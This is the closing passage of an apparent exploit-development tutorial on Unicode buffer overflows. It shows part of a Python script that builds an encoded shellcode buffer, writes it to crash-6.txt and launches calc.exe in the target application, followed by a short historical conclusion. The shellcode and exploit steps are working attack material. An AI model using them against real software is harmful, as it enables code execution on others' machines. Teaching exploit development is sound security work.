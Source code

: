 ```
55.	buf += b"\x34\x47\x4b\x4f\x49\x45\x57\x4b\x5a\x50\x38\x35\x45"  
56.	buf += b"\x52\x52\x36\x42\x48\x37\x36\x34\x55\x47\x4d\x55\x4d"  
57.	buf += b"\x4b\x4f\x4a\x35\x4f\x4c\x4c\x46\x33\x4c\x4c\x4a\x43"  
58.	buf += b"\x50\x4b\x4b\x39\x50\x33\x45\x4d\x35\x47\x4b\x50\x47"  
59.	buf += b"\x4e\x33\x42\x52\x42\x4f\x31\x5a\x4b\x50\x50\x53\x4b"  
60.	buf += b"\x4f\x49\x45\x52\x43\x53\x31\x42\x4c\x53\x33\x4e\x4e"  
61.	buf += b"\x32\x45\x34\x38\x53\x35\x4b\x50\x41\x41"  
62.	  
63.	buf += b"\x44" * (5000 - len(buf))  
64.	  
65.	f.write(buf)  
66.	f.close()  
```

Now all we have to do is run the code, copy the contents of crash-6.txt to our copy buffer, and inject them into our application and watch calc.exe pop up for us.

<figure><img src="https://www.coalfire.com/medialib/assets/images/Blog%20Images/2020/BoED4/image019.png" alt=""><figcaption></figcaption></figure>

### Completed exploit !!

### Conclusion

For a substantial amount of time, it was believed that Unicode overflows were not exploitable and that they could only be used to cause a denial of service condition. However, in 2002, Chris Anley published a [paper](https://web.archive.org/web/20020202013600/http:/www.nextgenss.com/papers/unicodebo.pdf) demonstrating this conclusion to be false. If you would like some further reading on this topic, I would suggest reading [Building IA32 'Unicode-Proof' Shellcodes](http://phrack.org/issues/61/11.html) paper published in [Phrack](http://phrack.org/) in 2003.
